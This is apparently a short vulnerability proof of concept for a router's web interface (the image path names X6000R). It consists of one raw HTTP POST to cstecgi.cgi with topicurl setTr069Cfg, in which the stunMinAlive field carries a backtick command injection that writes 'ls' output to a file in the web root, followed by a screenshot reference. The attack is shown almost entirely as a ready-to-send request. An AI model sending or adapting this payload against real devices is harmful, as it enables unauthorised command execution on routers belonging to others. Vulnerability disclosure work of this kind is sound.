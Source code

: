 

## `stunMinAlive`

```
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 328
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"`ls >/web/poc_stunMinAlive.txt`","topicurl":"setTr069Cfg"}
```

![image-20241029085844883](./X6000R/images/image-20241029085844883.png)
